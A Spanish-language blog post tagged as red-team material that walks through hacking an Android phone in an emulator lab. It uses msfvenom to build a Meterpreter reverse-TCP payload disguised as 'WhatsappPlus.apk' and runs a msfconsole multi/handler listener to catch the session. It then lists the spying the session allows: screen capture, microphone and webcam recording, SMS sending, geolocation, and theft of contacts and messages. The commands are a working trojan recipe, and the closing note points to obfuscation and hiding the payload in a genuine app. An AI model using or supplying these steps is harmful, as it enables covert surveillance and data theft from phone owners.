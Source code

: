 ```yaml
---
layout: post
category: red
tags: hack android meterpreter msfvenom msfconsole metasploit
author: RedDev
title : Vamos a hackear un móvil android
---
```


# Introducción
En este artículo vamos a conocer una de las maneras más comunes con las cuales los hackers ganan acceso a nuestros dispositivos android.

# Herramientas a utilizar 
- Emulador android 7.0
- Sistema Kali Linux
- Metasploit

# Manos a la obra
## 1.Creando el payload
Para este fin usaremos msfvenom, una de las herramientas de MetasPloit, como nuestro objetivo es un móvil android usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.126.145 LPORT=4444 R > WhatsappPlus.apk
```
Siendo LHOST nuestra ip, en este caso privada y el LPORT el puerto de escucha.
El payload es de tipo meterpreter, este tipo de virus es muy peligroso ya que funciona por medio de inyecciones dinamicas en memoria, lo que lo hace difícil de detectar y además permite el uso de otros exploits de forma fácil.
![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/602b5004-d20c-4eb2-b4dc-477b00588fea)

## 2.Usando el listener
Primero abrimos msfconsole
```bash
msfconsole
```
Tras esto usamos: 
```bash
use multi/handler/
set payload android/meterpreter/reverse_tcp
```
Tras esto configuraremos el listener.
Por defecto está así:
```bash
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Por lo que solo tendremos que configurar nuestro LHOST de esta forma:
```bash
set lhost eth0
```
Siendo eth0 nuestra interfaz de red por la que estaremos en escucha, aunque también podemos escribir nuestra IP privada a mano
Trás esto escribimos:
```bash
run
```
Y a funcionar :)
![Captura de pantalla 2023-05-26 011413](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/98354012-f3a5-4f3b-b49c-1e480bac7800)

## 3.Pasando e instalando el apk maliciosa
Descargamos la apk en el dispositivo:
![Captura de pantalla 2023-05-26 011816](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/cd602b93-315a-4959-bde3-410427a4595d)

Ahora procedemos a instalarla, y una vez abierta, obtenemos la sesión:
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/bea26a17-1200-411d-8712-bbcb0e159839)

Ahora vamos a ver las opciones que nos brinda este tipo de virus:
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/2f15b637-3cac-4f58-8f5b-4fde56cc2f78)
Entre las opciones que nso brinda esta:
- Espiar la pantalla del dispositivo
- Grabar el micrófono o la webcam
- Iniciar aplicaciones
- Enviar SMSs
- Geolocalizar el dispositivo
- Robar el historial de llamadas, contactos, SMSs
- Esconder la aplicación maliciosa
- Instalar aplicaciones...

# Conclusiones
Como veis este tipo de virus son muy peligrosos, pudiendo hacer mucho daño al usuario.
Como disclamer, quiero recalcar que este método no es efectivo a día de hoy ya que el antivirus de android y lo "extraña que es la app", es difícil de hacela efectiva esta técnica, para esto se utilizan diversas técnicas como ofuscación o esconder el payload en una app veridica y de esta forma usar la app como caballo de troya.

